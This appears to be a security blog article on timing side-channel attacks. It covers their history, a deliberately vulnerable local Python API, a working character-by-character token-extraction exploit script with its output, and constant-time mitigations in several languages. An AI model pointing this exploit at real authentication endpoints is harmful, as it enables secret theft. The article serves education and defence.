

Imagine you are trying to pick a rotary dial safe. Every time you set a dial to the correct digit, the internal mechanism produces a barely perceptible metallic click, just a fraction of a millisecond earlier than the others. You do not need to test millions of combinations blindly: simply rotate the dial slowly, listen for the click, lock in that digit, and move on to the next.

In the software world, that "click" is the CPU execution time.

Many developers believe that if an API key or session token is 32 alphanumeric characters long and generated using a cryptographically secure random number generator, the system is immune to brute-force attacks. After all, 62<sup>32</sup> combinations would take cosmic ages to exhaust. However, a single naive line of verification code like `if (token == secret)` completely invalidates that mathematical guarantee.

In this article, we will take a deep dive into **Timing Attacks**. We will start with the historical context of landmark real-world vulnerabilities in both hardware and the internet, explore the precise mechanics of side-channel time leakage with explanatory diagrams, build a real API and automate an exploit to crack it using statistical analysis, address the realistic limitations of this simulation, and finally present concrete mitigation patterns across multiple programming languages and architectures.

---

## 1. Historical Context: Real-World Cases That Reshaped Security

Timing attacks belong to the broader family of **Side-Channel Attacks**. Unlike traditional cryptanalysis—which seeks to break the underlying mathematical foundations of a cipher (such as RSA or AES)—side-channel attacks exploit physical and behavioral characteristics of the software or hardware implementation: power consumption fluctuations, electromagnetic emissions, acoustics, and above all, elapsed execution time.

### Paul Kocher's Groundbreaking Discovery (1996)
The concept was academically formalized in 1996 by researcher [Paul Kocher in his seminal paper: "Timing Attacks on Implementations of Diffie-Hellman, RSA, DSS, and Other Systems" (CRYPTO '96)](https://www.paulkocher.com/doc/TimingAttacks.pdf). Kocher demonstrated that modular exponentiation operations used in public-key cryptography took slightly different amounts of time depending on whether a private key bit was `0` or `1`. By accurately timing cryptographic signatures, an attacker could deduce the private key without breaking the underlying integer factorization hardness assumptions.

### Cracking OpenSSL Over the Network (2003)
For years, the industry debated whether timing attacks were practical outside specialized laboratory conditions with physical hardware probes. That debate was settled in 2003 by [David Brumley and Dan Boneh in their famous paper "Remote Timing Attacks are Practical"](https://crypto.stanford.edu/~dabo/papers/ssl-timing.pdf), frequently highlighted in cybersecurity discussions such as this [Security StackExchange thread on timing attacks over the internet](https://security.stackexchange.com/questions/183796/are-there-any-successful-cases-of-timing-attacks-over-the-internet).

Brumley and Boneh successfully extracted private RSA keys from an Apache web server running OpenSSL across a local network and between university buildings. The RSA decryption routine utilized Montgomery multiplication optimizations within the Chinese Remainder Theorem (CRT) that exhibited measurable timing variances based on the values of prime factors *p* and *q*. Their findings proved that network jitter and latency are not insurmountable barriers when paired with statistical sampling.

In 2009, Scott Crosby, Dan Wallach, and Rudolf Riedi extended this research in the paper [Opportunities and Limits of Remote Timing Attacks (USENIX Security / Rice University)](https://www.usenix.org/legacy/event/sec09/tech/full_papers/crosby.pdf), showing that sub-millisecond variances could be reliably extracted over the public internet using statistical techniques like box plots and Student's *t*-tests.

### The Xbox 360 Hypervisor Exploit (2007)
One of the most celebrated real-world timing attacks in gaming history targeted Microsoft's Xbox 360 security architecture in 2007. After Microsoft released dashboard updates to patch the known hypervisor flaw (the "King Kong" exploit) and attempted to prevent downgrades using hardware *eFuses*, researchers in the reverse engineering community turned to side channels.

As documented by cryptographer [Nate Lawson on the Root Labs blog](https://rdist.root.org/2010/01/07/timing-independent-array-comparison/) and reviewed in academic surveys like [A Survey of Microarchitectural and Software Timing Attacks](https://eprint.iacr.org/2016/613.pdf), the console's bootloader verification routine relied on the standard C library function `memcmp` to check HMAC-SHA1 signatures. Because `memcmp` performs an early exit upon encountering the first mismatch, invalid signatures were rejected faster if the very first byte failed.

Attackers connected simple microcontroller hardware to the motherboard bus to accurately time the interval before the error reset pulse was triggered. By testing byte candidates and noting which value delayed the reset signal by microseconds, the valid HMAC was fully reconstructed byte-by-byte. This allowed hackers to forge valid bootloader components, downgrade the console's kernel, and re-enable unsigned code execution and Linux.

### The Hardware Revolution: The Spectre Vulnerability (2018)
While timing attacks were historically regarded as cryptographic software implementation oversights, January 2018 altered the hardware landscape forever with the publication of the research paper [Spectre Attacks: Exploiting Speculative Execution (Kocher et al.)](https://spectreattack.com/spectre.pdf) and the widespread disclosure of the [Spectre vulnerability (CVE-2017-5753) documented on Wikipedia](https://en.wikipedia.org/wiki/Spectre_(security_vulnerability)), alongside Meltdown.

Spectre revealed that modern CPU architectures (Intel, AMD, ARM) contained fundamental microarchitectural vulnerabilities in their **Speculative Execution** and branch prediction units. To maximize throughput, CPUs predict branch outcomes and execute subsequent instructions ahead of time. If the branch turns out to have been mispredicted, the processor discards register state changes, **but the memory cache lines remain populated**.

Using a microarchitectural timing technique known as *Flush+Reload*, an attacker process measures in nanoseconds how long it takes to read memory addresses: if the read is blazingly fast, the address was cached in L1/L2 (indicating speculative execution accessed secret data); if it is slow, the data had to be fetched from DRAM.

The impact was so profound that all major web browsers (Google Chrome, Mozilla Firefox, Apple Safari) were forced to [artificially coarsen JavaScript high-resolution timers like performance.now()](https://developer.mozilla.org/en-US/docs/Web/API/Performance/now#reduced_time_precision) from microseconds to tens of microseconds and introduce synthetic jitter, specifically to prevent malicious web scripts from mounting timing attacks across origins or process boundaries.

---

## 2. What Are Timing Attacks and How Do They Work?

At the web application and microservices layer, the vulnerability most commonly manifests in string equality comparisons, as highlighted in [Manoj Neupane's Medium article on Timing Attacks](https://medium.com/@manojneupane787/timing-attacks-the-small-leak-that-can-expose-big-secrets-41f80998399b) and discussed extensively on [Stack Overflow regarding Timing Attacks](https://pt.stackoverflow.com/questions/207650/o-que-%C3%A9-timing-attack-e-onde-ele-se-aplica).

### The "Early Exit" Mechanism

Consider the default implementation used by most programming languages and runtime libraries when evaluating whether two strings are identical:

```python
# How standard equality operators like '==' or 'strcmp' behave:
def early_exit_compare(user_input: str, secret: str) -> bool:
    if len(user_input) != len(secret):
        return False
    
    for i in range(len(user_input)):
        if user_input[i] != secret[i]:
            return False  # <--- EARLY EXIT!
            
    return True
```

In standard application engineering, this short-circuit logic is optimal: if the very first character doesn't match, why waste CPU cycles validating the remaining 31 bytes?

From a cybersecurity perspective, however, this introduces an information leak:

<div class="my-6 p-5 rounded-xl bg-slate-900 border border-slate-800 text-center shadow-inner">
    <span class="text-xs uppercase tracking-widest text-slate-500 font-mono block mb-2">Timing Leakage Equation</span>
    <div class="font-mono text-lg md:text-xl font-bold text-orange-400">
        Time(k) = T_base + k · Δt
    </div>
</div>

Where:
- `T_base` represents network baseline round-trip and server dispatch latency;
- `k` is the number of contiguous matching characters from the start of the string;
- `Δt` is the incremental CPU processing time spent iterating one more character.

If the secret is `"FLAG"`:
1. Submitting `"AAAA"` causes the CPU to compare `'A' != 'F'` and exit immediately at index 0. Time: ≈ 1.0 ms.
2. Submitting `"FAAA"` allows the CPU to match `'F' == 'F'`, advance to index 1, compare `'A' != 'L'`, and only then exit. Time: ≈ 2.0 ms.
3. Submitting `"FLAA"` executes another loop iteration before failing. Time: ≈ 3.0 ms.

### The Mathematical Collapse of Complexity

This subtle timing step collapses the attack complexity from exponential to linear:

- **Blind Brute Force:** A 16-character token drawn from 63 alphanumeric characters requires:
  <div class="my-3 p-3 rounded-lg bg-slate-900 border border-slate-800 text-center font-mono text-base font-semibold text-orange-400">
      63<sup>16</sup> ≈ 4.09 × 10<sup>28</sup> combinations
  </div>
  Even with high-performance clusters testing billions of guesses per second, the universe would end before exhausting the search space.

- **Timing Attack (Character by Character):** Because you can verify each character independently by measuring response latency:
  <div class="my-3 p-3 rounded-lg bg-slate-900 border border-slate-800 text-center font-mono text-base font-semibold text-emerald-400">
      63 × 16 = 1,008 requests
  </div>
  This can easily be executed in seconds via an automated script!

### Visualizing the Behavior

The technical diagram below illustrates the difference between vulnerable early-exit logic and secure constant-time validation, formatted as a scientific paper figure:

<div class="my-6 rounded-xl overflow-hidden border border-slate-700 shadow-xl bg-white p-2">
    
</div>

Under the vulnerable early-exit curve (a), every correct character generates an upward step in response latency (T₀ + k · Δt). In contrast, constant-time validation (b) executes the exact same workload regardless of mismatch locations, producing a flat horizontal line with zero correlation to the secret value.

---

## 3. Practical Implementation: Building and Exploiting a Real API

To validate the concept with executable code, I created a hands-on laboratory.

<div class="my-6 p-4 rounded-xl bg-slate-900 border-l-4 border-orange-500 text-slate-300">
    <div class="flex items-center gap-2 text-orange-400 font-bold mb-1">
        <i data-lucide="info" class="w-4 h-4"></i> Open Source Laboratory
    </div>
    <p class="text-sm text-slate-300 mb-0">
        You can inspect and execute the full source code on your local environment directly from the <a href="https://github.com/hertonnn/hertonnn.github.io/tree/main/case_studies/timing_attack" target="_blank" rel="noopener noreferrer" class="text-orange-400 underline font-semibold">case_studies/timing_attack directory on GitHub</a>.
    </p>
</div>

### 3.1 The Vulnerable API Server (`vulnerable_api.py`)

Here is the server implementation in Python. It handles `POST /verify`, reads the `X-API-Key` header, and performs an early-exit comparison vulnerable to timing leaks:

```python
import time
import json
from http.server import HTTPServer, BaseHTTPRequestHandler

SECRET_TOKEN = "FLAG_SEC_2026"
HOST = "127.0.0.1"
PORT = 8000

BASE_DELAY = 0.004       # 4ms base delay upon confirming correct length
CHAR_DELAY = 0.008       # 8ms per matched character

def vulnerable_compare(provided: str, secret: str) -> bool:
    # 1. Length leak:
    if len(provided) != len(secret):
        return False

    # 2. Character-by-character early exit:
    matched = 0
    for c_prov, c_sec in zip(provided, secret):
        if c_prov == c_sec:
            matched += 1
        else:
            break

    # Computational cost proportional to verified characters:
    # Time = T_base + k * Delta_t
    time.sleep(BASE_DELAY + matched * CHAR_DELAY)

    return matched == len(secret)

class TimingAttackHandler(BaseHTTPRequestHandler):
    def do_POST(self):
        if self.path == "/verify":
            api_key = self.headers.get("X-API-Key", "")
            is_valid = vulnerable_compare(api_key, SECRET_TOKEN)
            
            self.send_response(200 if is_valid else 401)
            self.send_header("Content-Type", "application/json")
            self.end_headers()
            
            payload = {
                "authenticated": is_valid,
                "message": "Access granted!" if is_valid else "Invalid token."
            }
            self.wfile.write(json.dumps(payload).encode("utf-8"))
        else:
            self.send_response(404)
            self.end_headers()

    def log_message(self, format, *args):
        return

if __name__ == "__main__":
    server = HTTPServer((HOST, PORT), TimingAttackHandler)
    print(f"[*] Vulnerable API active on http://{HOST}:{PORT}/verify")
    server.serve_forever()
```

### 3.2 The Automated Exploit (`exploit.py`)

The attacker script operates in two strategic phases:
1. **Length Discovery:** Tests token lengths from 1 to 16 using a neutral sentinel character (`"!" * length`). The matching length enters the comparison block, yielding a measurably longer latency than immediate `len` mismatches.
2. **Character-by-Character Extraction:** For each slot, it iterates across the charset, leveraging two critical techniques:
   - **Minimum Latency Filtering (`min`):** In side-channel engineering (Brumley & Boneh), the minimum latency across N samples isolates the true CPU execution time, filtering out additive delays from OS context switching, Garbage Collection, and network queues.
   - **Adaptive Early-Stop:** Establishes a baseline for the current position; once a candidate triggers an obvious temporal spike (`>= baseline + threshold`), it is immediately locked in, bypassing unnecessary checks for the remainder of the charset.

```python
import time
import string
import urllib.request
import urllib.error

TARGET_URL = "http://127.0.0.1:8000/verify"
CHARSET = string.ascii_uppercase + string.digits + "_"
SAMPLES_PER_CHAR = 3
CHAR_DELAY_ESTIMATE = 0.008

def measure_latency(candidate_key: str, samples: int = SAMPLES_PER_CHAR) -> float:
    times = []
    for _ in range(samples):
        req = urllib.request.Request(
            TARGET_URL,
            method="POST",
            headers={"X-API-Key": candidate_key, "User-Agent": "TimingAttack-POC"}
        )
        t_start = time.perf_counter()
        try:
            with urllib.request.urlopen(req) as resp:
                resp.read()
        except urllib.error.HTTPError:
            pass  # 401 Unauthorized is expected for invalid attempts
        times.append(time.perf_counter() - t_start)
    return min(times)

def determine_length(max_len: int = 16) -> int:
    print("[*] Phase 1: Identifying secret token length...")
    times_by_length = {}
    for length in range(1, max_len + 1):
        dummy_guess = "!" * length
        min_time = measure_latency(dummy_guess, samples=3)
        times_by_length[length] = min_time
        print(f"    - Testing length {length:2d}: {min_time * 1000:6.2f} ms")
    return max(times_by_length, key=times_by_length.get)

def crack_secret(token_length: int) -> str:
    print(f"[*] Phase 2: Extracting {token_length} characters...")
    recovered = ""
    for pos in range(token_length):
        padding = "!" * (token_length - len(recovered) - 1)
        baseline = measure_latency(recovered + "!" + padding, samples=3)
        threshold = baseline + (CHAR_DELAY_ESTIMATE * 0.65)
        
        best_candidate = None
        max_min_val = -1.0
        for char in CHARSET:
            candidate_key = recovered + char + padding
            val = measure_latency(candidate_key, samples=3)
            if val > max_min_val:
                max_min_val = val
                best_candidate = char
            if val >= threshold:  # Adaptive Early-Stop!
                best_candidate = char
                break
        recovered += best_candidate
        print(f"    [Position {pos:2d}/{token_length}] Char: '{best_candidate}' | Min: {max_min_val * 1000:6.2f} ms | Current: {recovered}")
    return recovered
```

### 3.3 Live Attack Execution Output

Running `exploit.py` against the running server yields the following terminal output:

```text
============================================================
  TIMING ATTACK PROOF OF CONCEPT (POC)
  Target: http://127.0.0.1:8000/verify
============================================================
[*] Phase 1: Identifying secret token length...
    - Testing length  1:   1.83 ms
    - Testing length  2:   1.26 ms
    ...
    - Testing length 12:   1.20 ms
    - Testing length 13:   5.43 ms
    - Testing length 14:   1.68 ms
    - Testing length 15:   1.25 ms
    - Testing length 16:   1.19 ms
[+] Probable secret length detected: 13 characters

[*] Phase 2: Starting character-by-character extraction...
    [Position  0/13] Char: 'F' | Time:  13.99 ms | Scanned:  6/37 | Current: F
    [Position  1/13] Char: 'L' | Time:  21.67 ms | Scanned: 12/37 | Current: FL
    [Position  2/13] Char: 'A' | Time:  29.63 ms | Scanned:  1/37 | Current: FLA
    [Position  3/13] Char: 'G' | Time:  37.73 ms | Scanned:  7/37 | Current: FLAG
    [Position  4/13] Char: '_' | Time:  45.69 ms | Scanned: 37/37 | Current: FLAG_
    [Position  5/13] Char: 'S' | Time:  53.61 ms | Scanned: 19/37 | Current: FLAG_S
    [Position  6/13] Char: 'E' | Time:  61.66 ms | Scanned:  5/37 | Current: FLAG_SE
    [Position  7/13] Char: 'C' | Time:  69.93 ms | Scanned:  3/37 | Current: FLAG_SEC
    [Position  8/13] Char: '_' | Time:  77.86 ms | Scanned: 37/37 | Current: FLAG_SEC_
    [Position  9/13] Char: '2' | Time:  86.00 ms | Scanned: 29/37 | Current: FLAG_SEC_2
    [Position 10/13] Char: '0' | Time:  93.80 ms | Scanned: 27/37 | Current: FLAG_SEC_20
    [Position 11/13] Char: '2' | Time: 102.86 ms | Scanned: 29/37 | Current: FLAG_SEC_202
    [Position 12/13] Char: '6' | Time: 109.95 ms | Scanned: 33/37 | Current: FLAG_SEC_2026

============================================================
[+] SUCCESS! Token reconstructed: 'FLAG_SEC_2026'
[+] Total attack duration: 52.55 seconds
[*] Validating recovered token against the target...
[+] Server response (HTTP 200): {"authenticated": true, "message": "Access granted!"}
============================================================
```

Notice the arithmetic progression: response times increment by approximately **8.0 ms** for each recovered character. When reaching the final slot (12), latency reaches ~110 ms. The secret was broken without prior knowledge of a single character.

---

## 4. Realistic Limitations: Laboratory vs. Real World

Maintaining technical honesty regarding the educational simulation presented in Section 3 is essential:

<div class="my-6 p-4 rounded-xl bg-slate-900 border-l-4 border-amber-500 text-slate-300">
    <div class="flex items-center gap-2 text-amber-400 font-bold mb-1">
        <i data-lucide="alert-triangle" class="w-4 h-4"></i> The Cryptopals Educational Standard
    </div>
    <p class="text-sm text-slate-300 mb-0">
        Introducing a deliberate delay of a few milliseconds per character in this laboratory is a well-established security training convention. It directly replicates the industry-standard curriculum from the <a href="https://cryptopals.com/sets/4/challenges/31" target="_blank" rel="noopener noreferrer" class="text-amber-400 underline font-semibold">Cryptopals Crypto Challenges — Challenge 31: "Implement and break HMAC-SHA1 with an artificial timing leak"</a> and <a href="https://cryptopals.com/sets/4/challenges/32" target="_blank" rel="noopener noreferrer" class="text-amber-400 underline font-semibold">Cryptopals Challenge 32: "Break HMAC-SHA1 with a less artificial timing leak"</a>. This pedagogical setup proves the algorithmic mechanics of the attack in seconds on a local machine without forcing the reader to fire hundreds of thousands of network requests.
    </p>
</div>

### The Critical Question: Can We Measure at the Nanosecond or Microsecond Scale?

If in a real production environment comparing two memory buffers occurs within **nanoseconds or a few microseconds**, is it realistic to detect such differences in practice? The answer is **yes, but feasibility depends strictly on the attacker's physical proximity and network tier**:

1. **Local Hardware and Co-located Environments (Nanoseconds — 0.3 ns to 10 ns):**
   - **Feasibility:** Readily achievable with cycle-level precision.
   - **Mechanism:** Attackers executing code on the same CPU can read hardware timestamp counters directly, such as via the x86 `RDTSC`/`RDTSCP` instructions (operating at sub-nanosecond resolution on modern gigahertz processors).
   - **Real-World Impact:** This is the foundational mechanism behind microarchitectural attacks like **Spectre** and **Meltdown**, which measure whether memory loads complete in ~4 clock cycles (L1 cache hit) or ~200 cycles (main RAM fetch). This risk forced major browser vendors (Chrome, Firefox, Safari) to [intentionally truncate the precision of performance.now()](https://developer.mozilla.org/en-US/docs/Web/API/Performance/now#reduced_time_precision) and introduce synthetic jitter to mitigate in-browser JavaScript cache side-channel attacks.

2. **Local Area Networks / LAN (Microseconds — 1 µs to 50 µs):**
   - **Feasibility:** Practical through statistical signal processing.
   - **Mechanism:** Within modern corporate LANs and low-latency cloud data centers, network jitter averages tens of microseconds.
   - **Real-World Impact:** As demonstrated by Brumley & Boneh (2003) against OpenSSL and expanded by Crosby et al. in [Opportunities and Limits of Remote Timing Attacks (USENIX Security)](https://www.usenix.org/legacy/event/sec09/tech/full_papers/crosby.pdf), the **Central Limit Theorem** establishes that sample mean variance decreases with <em>σ</em> / √<em>N</em>. Gathering 5,000 to 20,000 samples per candidate washes out stochastic transit jitter, exposing microsecond delta thresholds.

3. **Public Internet / WAN (Transit Noise vs. Statistical Extraction):**
   - **Pure in-memory string comparison (`memcmp` on nanoseconds):** Requires high statistical rigor, but **must never be assumed safe**. As demonstrated by Crosby, Wallach, and Riedi (2009), remote attackers armed with advanced statistical filtering (such as minimum-latency filters and Box-Cox transformations) can reliably extract minute timing discrepancies across multiple internet hops. Furthermore, in modern cloud architectures (where microservices communicate internally or an attacker provisions instances within the target's AWS/GCP region), network round-trip time drops below 1 ms with negligible jitter, rendering pure string timing attacks highly feasible and swift.
   - **Naturally expensive server operations (Milliseconds):** Immediately practical and severe! When backend operations involve noticeable processing time, the temporal signal dwarfs WAN jitter even across small sample batches:
     - Password verification using intensive key derivation algorithms (*bcrypt*, *Argon2*, *PBKDF2*, which run in 100 ms to 300 ms). If an API rejects invalid usernames prior to running the hash, account enumeration leaks wide open, as explored in [PortSwigger Web Security Academy's Username enumeration via response timing lab](https://portswigger.net/web-security/authentication/password-based/lab-username-enumeration-via-response-timing).
     - Database queries with index disparities or table scans.
     - Asymmetric cryptography (RSA/ECC decryption and signature verification) across payment and authentication gateways.

---

## 5. How to Defend: Libraries, Methods, and Architecture

Preventing timing attacks requires combining low-level constant-time comparison primitives with defense-in-depth architectural principles.

### 5.1 The Principle of Constant-Time Comparison

The goal is to ensure the comparison algorithm executes the **exact same number of machine instructions**, regardless of whether bytes match or differ.

Instead of short-circuiting on mismatch (`break` or `return false`), constant-time algorithms accumulate differences using bitwise XOR (`^`) and OR (`|=`):

```c
// Classic constant-time memcmp in C:
int constant_time_compare(const unsigned char *a, const unsigned char *b, size_t length) {
    unsigned char result = 0;
    for (size_t i = 0; i < length; i++) {
        result |= a[i] ^ b[i];  // If any bit differs, result becomes non-zero
    }
    return result == 0;
}
```

Because the loop invariably iterates over the entire `length`, execution duration remains identical, eliminating any observable timing channel.

### 5.2 Implementation Guide by Language

Never roll your own comparison logic if your language ecosystem provides audited, battle-tested standard library functions:

#### Python
Use the standard library `secrets` module (available since Python 3.6) or `hmac`:
```python
import secrets

# SECURE: Constant-time comparison
if secrets.compare_digest(user_token, correct_token):
    # Access granted
```

#### Node.js / JavaScript
Use the native `crypto.timingSafeEqual` function:
```javascript
const crypto = require('crypto');

function safeCompare(a, b) {
    const bufA = Buffer.from(a, 'utf8');
    const bufB = Buffer.from(b, 'utf8');

    // NOTE: timingSafeEqual requires buffers of identical length!
    // To prevent length leakage, hash both values with HMAC beforehand:
    if (bufA.length !== bufB.length) {
        return false;
    }
    return crypto.timingSafeEqual(bufA, bufB);
}
```

#### Java / Kotlin
Use `MessageDigest.isEqual`:
```java
import java.security.MessageDigest;
import java.nio.charset.StandardCharsets;

public boolean safeCompare(String userToken, String secretToken) {
    byte[] a = userToken.getBytes(StandardCharsets.UTF_8);
    byte[] b = secretToken.getBytes(StandardCharsets.UTF_8);
    
    // Constant-time implementation available since Java 6u17
    return MessageDigest.isEqual(a, b);
}
```

#### Go
Use the `crypto/subtle` package:
```go
import "crypto/subtle"

func SafeCompare(userToken, secretToken string) bool {
    // subtle.ConstantTimeCompare checks byte slices without early exit
    return subtle.ConstantTimeCompare([]byte(userToken), []byte(secretToken)) == 1
}
```

#### Rust
Use the official `subtle` crate:
```rust
use subtle::ConstantTimeEq;

fn safe_compare(user_token: &[u8], secret_token: &[u8]) -> bool {
    user_token.ct_eq(secret_token).into()
}
```

#### PHP
Use the native `hash_equals` function:
```php
if (hash_equals($secret_token, $user_token)) {
    // Verified in constant time
}
```

---

### 5.3 Defense-in-Depth Architectural Best Practices

Beyond fixing string comparison statements, apply these layered defenses:

1. **Pre-Hashing with HMAC (Eliminating Length Leaks):**
   If an incoming token has a mismatched length, a size check can still leak information. The standard practice for webhook signature verification (used by Stripe and GitHub) is to compute the HMAC-SHA256 of both the user token and the secret with an internal key before comparing. Because SHA-256 digests are **always exactly 32 bytes**, length information is entirely obscured.

2. **Strict Rate Limiting on Sensitive Endpoints:**
   Cap authentication and token verification attempts to a human scale (e.g., 5 attempts per minute per IP or account). Since timing attacks over network boundaries rely on extensive statistical aggregation, aggressive rate limiting disables the attack at its inception.

3. **The Fallacy of Random Sleep (Jitter):**
   Developers often think: *"I'll just add `time.sleep(random(0, 100ms))` to confuse the attacker."*
   
   <div class="my-6 p-4 rounded-xl bg-slate-900 border-l-4 border-red-500 text-slate-300">
       <div class="flex items-center gap-2 text-red-400 font-bold mb-1">
           <i data-lucide="shield-alert" class="w-4 h-4"></i> Caution: The Fallacy of Pseudo-randomness
       </div>
       <p class="text-sm text-slate-300 mb-0">
           Random delays <strong>do not prevent</strong> timing attacks. They merely widen the statistical distribution. According to the Law of Large Numbers, the noise average converges to a constant as sample size increases, leaving the underlying computational disparity visible in the data. The only true solution is <strong>constant-time determinism</strong>, not pseudo-randomness.
       </p>
   </div>

4. **User Enumeration via Login Latency:**
   In login endpoints (`/login`), if an email does not exist, the API might return `401` within 2 ms. If the email exists, the server executes a password hashing algorithm (*bcrypt* or *Argon2*), taking 150 ms before returning `401`. Attackers exploit this gap to map valid registered accounts.
   *Mitigation:* When a user is not found, execute a dummy password hash computation before responding with 401, equalizing execution time across both paths.

---

## 6. Conclusion

Timing attacks illustrate one of the most compelling axioms of cybersecurity: **the security of a system depends not only on the mathematical elegance of its algorithms, but on the physics of its execution.**

An application can employ state-of-the-art elliptic-curve cryptography and encrypt all data at rest. Yet, if an edge authentication routine compares an access token with a short-circuiting `if (token == secret)` check, that theoretical fortress can be compromised in microseconds.

As microservices become lighter and serverless architectures lower the boundaries between shared execution environments, understanding side-channel leaks is no longer the exclusive domain of cryptographic researchers—it is an indispensable skill for every software engineer.

Securing your code is straightforward: swap naive comparison operators for standard constant-time primitives like `secrets.compare_digest` and `crypto.timingSafeEqual`, pre-hash tokens, and enforce strict rate limits. Your code will remain blazingly fast, and your secrets will stay truly hidden.
